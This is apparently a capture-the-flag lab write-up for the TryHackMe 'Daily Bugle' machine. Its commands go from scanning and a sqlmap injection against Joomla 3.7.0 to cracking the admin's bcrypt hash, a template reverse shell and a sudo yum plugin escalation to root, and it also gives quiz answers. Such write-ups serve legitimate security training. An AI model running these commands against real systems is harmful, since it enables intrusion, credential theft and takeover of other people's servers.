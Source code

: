 # Daily Bugle

- [Tools](#tools)
- [Deploy](#deploy)
- [Obtain user and root](#obtain-user-and-root)
- [Credits](#credits)

Room Link: https://tryhackme.com/room/dailybugle

## Tools 

1. NMap https://nmap.org/download
2. JoomScan https://github.com/OWASP/joomscan
3. SearchSploit https://www.exploit-db.com/searchsploit
4. SQLMap https://github.com/sqlmapproject/sqlmap
5. hashid https://pypi.org/project/hashID/

## Deploy 

1. Start the machine and open the ip in browser.
2. Opening the site shows favicon of joomla on main page and a image with a man masked as spider man, looks like an robber.
3. Question `Access the web server, who robbed the bank?` Answer `spiderman`

## Obtain user and root

1. Running nmap gives some ports.
```bash
nmap -A 10.10.250.153
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 11:33 IST
Nmap scan report for 10.10.250.153
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.97 seconds
```
2. Question `What is the Joomla version?` Answer `3.7.0`
Got this details using OWASP joomscan by Mohammad Reza Espargham , Ali Razmjoo.
Command used: `joomscan  -u http://10.10.250.153/`
4. Using SearchSploit by exploitDB gives us SQL injection exploits on this joomla CMS version.
```bash
searchsploit joomla 3.7.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
5. After some reasearch on the exploit https://www.exploit-db.com/exploits/42033 and using some commands in SQLMap,
At first we crafted a command to begin SQL injection `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E`
6. Then crafted a SQLMap command to get db names `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E --dbs` and got a database named `joomla`
7. Then crafted a command to table names on DB `joomla` command `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla --tables` and we will get a table named `#__users`
8. To extract the table column names, we can use this command, `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" --columns` it will prompt for bruteforcing existing column names, we can find some column names like `id`, `username`, `email`, `password` etc.
9. Then, crafted a command to get password hash of users. `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" -C id,name,username,email,password --dump`
It shows result like that,
```bash
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| id  | name       | username | email               | password                                                     |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| 811 | Super User | jonah    | jonah@tryhackme.com | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
```
10. We used `hashid` to detect hash type and it could be `bcrypt`.
```bash
hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```
11. Now we can use `john the ripper` to decrypt the hash, using `rockyou.txt` wordlist.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********   (?)
1g 0:00:09:27 DONE (2020-06-14 17:12) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
12. Question `What is Jonah's cracked password?` Answer `spiderman123`
13. Now we can login using username `jonah` and password `spiderman123` on http://10.10.250.153/administrator/.
14. Now just goto `Extensions` > `Templates` > `Templates` and select `Beez3` and edit the `index.php` file to get reverse shell.
15. Now started  `netcat` with `nc -lvnp 1234` and replaced the code in `index.php` with pentestmonkey shell with own ip port and save.
16. Opening http://10.10.250.153/templates/beez3/index.php will give shell.
```bash
nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.250.153 56764
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:23:12 up  5:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
```
17. We can see only user named `jjameson` with command `ls /home`.
18. After some digging we got some password `*************` inside `/var/www/html/configuration.php` using `cat /var/www/html/configuration.php`.
19. So used the password to login ssh as user `jjameson` and got the flag
```bash ssh jjameson@10.10.250.153
The authenticity of host '10.10.250.153 (10.10.250.153)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.250.153' (ED25519) to the list of known hosts.
jjameson@10.10.250.153's password: 
Last login: Tue Mar  5 04:27:31 2024
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt
**************************
```
20. Question `What is the user flag?` Answer `**************************`
21. Using `sudo -l` command shows `/usr/bin/yum`.
```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
22. Lets follow https://gtfobins.github.io/gtfobins/yum/ sudo exploit to get root.
23. Just copy pasting given commands in `b` will upgrade ssh to `root`
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
24. So typing `cat /root/root.txt` will give us root flag.
```bash
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
******************************
```
25. Question `What is the root flag?` Answer `**************************`

## Credits

1. We already completed the machine, just click on completed.

Author: Zishan Ahamed Thandar
